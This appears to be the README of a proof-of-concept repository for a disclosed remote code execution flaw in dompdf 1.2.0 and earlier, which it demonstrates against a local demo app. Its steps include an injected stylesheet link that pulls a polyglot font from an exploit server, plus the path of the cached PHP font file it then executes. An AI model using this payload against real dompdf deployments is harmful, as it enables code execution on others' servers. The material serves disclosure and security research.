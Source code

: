 # RCE exploit for dompdf <= 1.2.0

This repository contains a vulnerable demo application using dompdf 1.2.0 and an exploit that achieves remote code execution via a ttf+php polyglot file.

For more details, please visit https://positive.security/blog/dompdf-rce

![Exploit Overview](exploit/overview.png)

## Instructions

1. Run the demo application
```
$ cd application
$ php -S localhost:9000
```

2. Run the exploit server
```
$ cd exploit
$ php -S localhost:9001
```

3. Trigger the exploit
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

4. Access the cached php "font" file and execute phpinfo()
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```

**Please note:** In case you're using different domains, please edit `exploit/exploit.css` accordingly and check `application/dompdf/lib/fonts` for the full font filename.
